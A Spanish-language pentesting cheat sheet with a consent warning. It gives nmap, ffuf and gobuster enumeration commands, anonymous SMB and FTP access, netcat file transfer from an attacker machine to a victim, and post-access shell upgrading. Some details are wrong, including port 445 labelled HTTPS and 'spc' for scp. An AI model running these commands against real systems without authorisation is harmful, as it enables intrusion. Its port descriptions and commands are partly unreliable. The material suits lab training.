 ```yaml
---
title: Cheat Docs 🔰
layout: default
has_toc: false
nav_order: 2
has_children: false
---
```


# Pentesting  📕
---

{: .warning }
> Las herramientas presentes en este apartado son invasivas; **no** podemos utilizar estas técnicas sin el consentimiento o la aprobación por parte del objetivo.                     
>*Podemos emplearlas a nivel didáctico en plataformas como HacktheBox o TryHackme.*. 


**Pequeña guía sobre las herramientas básicas necesarias para el pentesting.**

## Puertos destacables 🔑
- 21 **(FTP)**  Posible acceso con login anónimo.

- 22 **(SSH)** Si obtenemos las credenciales podemos tener acceso al sistema a través de este servicio.

- 80 **(HTTP)** Servidor web - Enumeración de directorios y búsqueda de vulnerabilidades en el servidor web.

- 143 / 993 **(IMAP)** Ataques de fuerza bruta contra las credenciales del servidor de correo electrónico.

- 110 / 995 **(SSL)** Posibles ataques de fuerza bruta contra las credenciales del servidor POP3.

- 445 **(HTTPS)**: Enumeración de certificados SSL/TLS para revelar posibles debilidades en la configuración de seguridad del servidor.


# Escaneo de Red 💻

---

### Nmap
https://nmap.org/

Es una herramienta de escaneo de puertos y análisis de redes de código abierto que se utiliza para identificar hosts y servicios en una red

### Escaneo de Hosts:

`nmap -n -sn --reason --min-rate 2000 10.0.0.0/24 -oN hostDiscovery`

### Escaneo de Puertos:
`nmap -np- -Pn --min-rate 5000 -v 10.0.0.0 -oN tcpPort -`

### Escaneo en dDtalle de un puerto:

`nmap -n -p21 -Pn -T5 10.0.0.0 -oN tcpPort21 -sVC`


# Herramientas para Servicios web 🕸️

---

## FFuF 
https://github.com/ffuf/ffuf
Herramienta de fuzzing de código abierto.


### Enumeración de URL:
`ffuf -u http://localhost:3000/FUZZ  -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt`

### Enumeración de Archivos
`ffuf -u http://localhost:3000/FUZZ  -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.html,.txt`

### Enumeración de Subdominios
`ffuf -u http://FUZZ.localhost:3000/ -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt`

---

## Gobuster 
https://github.com/OJ/gobuster

Herramienta de enumeración de directorios y subdominios.


### Enumeración de URL:
`gobuster -w /usr/share/wordlists/dirb/common.txt dir -u http://domain.com -x php,txt,html,cgi`

### Enumeración de Subdominios:
`gobuster dns -d http://domain.com -w wordlist.txt -i`

### Enumeración de Pantallas Ocultas:
`gobuster vhost -u http://domain.com -w wordlist.txt -v`


# Servicio SMB 🔑

---

Protocolo responsable de transferir datos entre un cliente y un servidor en redes de área local. 

### Enumeracion de recursos compartidos:
`smbclient -L 10.10.10.10 -N`

`rpcclient -U "" -N 10.10.10.10`

### Entrar con login anonimo:
`smbclient //10.10.212.43/Anonymous/`


# FTP 💻

---


### Entrar con usuario anónimo
`ftp 10.0.0.0 21 `

`#Name:anonymous
#Pass: -

# Transferencia de archivos 🗃️

---

## PYTHON

`python3 -m http.server 8000`

`python2 -m SimpleHTTPServer 8000`

`curl http://10.10.10.10/file.php`

## Netcat

### Maquina hacker
`nc -lvnp 4444 < file`

### Maquina Victima

`nc 10.10.10.10 4444 > file`

## SSH

### Archivo
`spc file.txt user@10.10.10.10:/path/`

### Carpeta
`spc -r user@10.10.10.10:/folder /path/folder/`


# Shell Upgrading 🐚

---

`script /dev/null -c bash` 

`cntrl+Z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=bash`

`export TERM=xterm`

`stty raws <filas> cols <columnas>`